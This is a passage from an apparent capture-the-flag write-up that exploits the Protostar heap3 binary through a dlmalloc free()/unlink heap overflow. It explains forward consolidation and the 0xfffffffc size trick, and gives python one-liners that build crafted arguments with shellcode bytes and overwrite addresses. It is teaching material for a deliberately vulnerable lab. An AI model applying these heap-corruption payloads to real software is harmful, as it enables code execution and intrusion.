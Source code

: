 Now, back to our main goal: crafting the third argument. Our objective is to trigger **forward consolidation**, which means we need to **control the size of the fifth chunk**.

To achieve this, the `PREV_INUSE` bit in the fifth chunk must be **zero**, meaning we need to overwrite the size of the fourth chunk to ensure proper heap manipulation.

At first, you might think using a small size like `0x10` in the fourth chunk's size field would work. But there's a problem, where writing `\x00\x00\x00\x10` to memory will cause **strcpy()** to stop copying at `\x00`.

A better approach is to use a large value, such as `0xfffffffc`. This works because the `inuse_bit_at_offset()` function simply adds two numbers without performing any validation checks.

Additionally, we need the `PREV_INUSE` bit of the fifth chunk to be turned off, and using `0xfffffffc` achieves this as well.

But where should we place this fifth chunk on the heap?

Interestingly, `0xfffffffc` is **-4** in two’s complement (for signed integers). This means the first byte of the fourth chunk will actually be interpreted as the size of the fifth chunk.

Since the fourth chunk starts at `0x0804c0b4`, let's compute the location of the fifth chunk:

$$
    0x0804c0b4 + 0xfffffffc
$$

$$
  = 0x0804c0b4 - 4 
$$

$$
  = 0x0804c0b0
$$

Thus, the fifth chunk begins at `0x0804c0b0`. At `0x0804c0b4`, we overwrite it with `0xfffffffc`, effectively marking the fourth chunk as free. This ensures that forward consolidation works correctly.

Here is the third argument:

```shell
user@protostar:~$ python -c 'print "C" * 92 + "\xfc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08"' > /tmp/C
```

### Testing The Exploit

```shell
user@protostar:~$ python -c 'print "A" * 12 + "\xB8\x64\x88\x04\x08\xFF\xD0"' > /tmp/A
user@protostar:~$ python -c 'print "B" * 36 + "\x65"' > /tmp/B
user@protostar:~$ python -c 'print "C" * 92 + "\xfc\xff\xff\xff\xfc\xff\xff\xff\x1c\xb1\x04\x08\x14\xc0\x04\x08"' > /tmp/C
user@protostar:~$ /opt/protostar/bin/heap3 $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
that wasn't too bad now, was it? @ 1742401696
Segmentation fault
```

Nice :>

### References

- <a href="https://phrack.org/issues/57/9#article" target="_blank">"Once upon a free()"</a>
- <a href="https://gist.github.com/d7rub1k/89a6b012828ed26f6cb2a7961908d333" target="_blank">dlmalloc - version from 2001</a>